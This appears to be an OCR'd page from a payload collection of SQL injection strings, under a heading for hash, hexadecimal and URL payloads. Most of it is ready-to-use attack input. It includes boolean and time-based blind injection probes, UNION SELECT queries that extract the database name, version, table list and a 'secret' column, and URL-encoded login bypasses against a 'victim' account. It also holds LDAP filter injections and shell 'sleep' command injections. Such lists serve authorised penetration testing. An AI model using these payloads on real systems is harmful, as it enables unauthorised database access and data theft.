 ```
AND 7300=7300 AND ('pKlZ'='pKlZ
AND 7300=7300 AND ('pKlZ'='pKlY
AS INJECTX WHERE 1=1 AND 1=1
AS INJECTX WHERE 1=1 AND 1=0
AS INJECTX WHERE 1=1 AND 1=1#
AS INJECTX WHERE 1=1 AND 1=0#
AS INJECTX WHERE 1=1 AND 1=1--
AS INJECTX WHERE 1=1 AND 1=0--
WHERE 1=1 AND 1=1
WHERE 1=1 AND 1=0
WHERE 1=1 AND 1=1#
WHERE 1=1 AND 1=0#
WHERE 1=1 AND 1=1--WHERE 1=1 AND 1=0--
ORDER BY (N--)
ORDER BY (N#) 
ORDER BY (N)
RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
%' AND 8310=8310 AND '%'='
%' AND 8310=8311 AND '%'='
```

### Hash, Hexadecimal & URL Payloads
```
' or username like '%
' or uname like '%
' or userid like '%
' or uid like '%
' or user like '%

username=victim&password=Blah%27%20OR%201%3D%271
username=victim&password=Blah%27%20OR%201%3D%271
username=victim&password=%5C%27%27%20or%201%3D1%20%23
username=victim&password=%C3%B5tM%C2%B8%C2%A6%C3%A9%C3%8F8%C3%9B%C3%BBl%0CT%27%3D%27

1' AND 1=2 UNION SELECT 1, DATABASE(), 2 #
1' AND 1=2 UNION SELECT 1, @@version, 2 #
1' AND 1=2 UNION SELECT 1, group_concat(table_name), 3 FROM information_schema.tables where table_schema=database() #
1' AND 1=2 UNION SELECT 1, group_concat(secret), group_concat(id) FROM SECRETTABLE #

'||UTL_HTTP.REQUEST
1;SELECT%20*
to_timestamp_tz
tz_offset
&lt;&gt;&quot;'%;)(&amp;+
'%20or%201=1
%27%20or%201=1
%20$(sleep%2050)
%20'sleep%2050'
char%4039%41%2b%40SELECT
&apos;%20OR
'sqlattempt1
(sqlattempt2)
%2A%7C
*(|(mail=*))
%2A%28%7C%28mail%3D%2A%29%29
*(|(objectclass=*))
%2A%28%7C%28objectclass%3D%2A%29%29

exec xp
```